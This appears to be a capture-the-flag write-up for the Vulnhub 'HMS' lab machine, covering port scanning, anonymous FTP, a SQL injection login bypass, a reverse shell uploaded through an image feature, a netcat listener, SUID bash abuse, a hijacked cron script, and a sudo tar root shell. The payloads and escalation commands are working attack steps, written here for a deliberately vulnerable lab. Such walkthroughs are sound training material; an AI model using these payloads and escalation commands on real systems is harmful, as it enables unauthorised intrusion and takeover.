 # HMS-Writeup 
HMS is an easy machine from Vulnhub by Nivek. I have tested this machine on VirtualBox.

Link to the machine: [https://www.vulnhub.com/entry/hms-1,728/](https://www.vulnhub.com/entry/hms-1,728/)

## Identify the target
I am using the machine in host only network. Here, I am using netdiscover to detect the IP address of the target.
```
netdiscover -i vboxnet0 -r 10.10.10.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                      
                                                                                                    
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102                                    
_____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
 10.10.10.1      08:00:27:fc:33:6c      1      42  PCS Systemtechnik GmbH                           
 10.10.10.10     08:00:27:56:f8:fd      1      60  PCS Systemtechnik GmbH
```
## Scan Open Ports
we have to look for the open ports on the target.
```
nmap -sV -sC -p- -oN nmap.log 10.10.10.10

21/tcp   open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3c:fc:ed:dc:9b:b3:24:ff:2e:c3:51:f8:33:20:78:40 (RSA)
|   256 91:5e:81:68:73:68:65:ec:a2:de:27:19:c6:82:86:a9 (ECDSA)
|_  256 a7:eb:f6:a2:c6:63:54:e1:f5:18:53:fc:c3:e1:b2:28 (ED25519)
7080/tcp open  http    Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/7.3.29 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/7.3.29 mod_perl/2.0.11 Perl/v5.32.1
| http-title: Admin Panel
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```
We can access the FTP service anonymously.
```
ftp 10.10.10.10

Connected to 10.10.10.10.
220 (vsFTPd 3.0.3)
Name (10.10.10.10:a7): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        118          4096 Jul 26 19:27 .
drwxr-xr-x    2 0        118          4096 Jul 26 19:27 ..
226 Directory send OK.
ftp>
```
there aren’t any files in there.

## Examine Port 7080 - Apache

![](pics/login.png)

We have login page, so there is no register link from here and we don’t have credentials.

I’ll use Burp to intercept the request.

send it to repeter, modified email with `'`.

![](pics/burp1.png)

The field email in this form suffers from an SQL injection. 
```
' or 1=1 #
' or 1=1 -- 
```
You can also use developers tools to modify the request.

However, there is a validation in the input field that it must be an `email`. Thus we have to remove it to inject our payload. So, inspect the email field
and remove `type="email"`.

And we have access to the admin panel.

![](pics/admin1.png)

After we log into the dashboard, we see a directory for uploaded images in the source.

![](pics/source1.png)

And a path for the settings that is commented.

![](pics/source2.png)

When we visit `setting.php`, we see an image uploading feature.

![](pics/admin2.png)

## Reverse Shell
Lets upload a shell. There is a webshells in kali by default: `ls /usr/share/webshells/`

Or you can find one online: [revshells](https://www.revshells.com/),  [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

I Changed the ip address and port, and started listening on the same port.
```
nc -lnvp 5555
```
We have a dummy shell, lets upgrade it.

![](pics/shell1.png)

There are two users on the machine "eren" and "nivek". We need to switch to real user so lets check the SUID binaries.

![](pics/perm.png)

Reference: [https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid)

So we can use it to get an instance of bash shell as user `eren`.
```
/usr/bin/bash -p
```
We still user `daemon` but `eren` is the effective user for this process only, this means that we don't have access to sudo permissions.

![](pics/euid.png)

After an hour digging around, i checked the cron jobs, and there is a backup script in the eren's directory. 

![](pics/cron.png)

This script runs every 5 minutes, and owned by `eren`. we can modify it to get another reverse shell as user `eren` on port `1234`.

![](pics/nano.png)

In five minutes i got a shell with user eren.

![](pics/rshell1.png)

## Privilege Escalation

Lets check the sudo permission:
```
sudo -l

Matching Defaults entries for eren on nivek:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eren may run the following commands on nivek:
    (root) NOPASSWD: /bin/tar
```
Searching in gtfobins: [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

tar gives us a root shell
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
and we'r root.

![](pics/sudo.png)
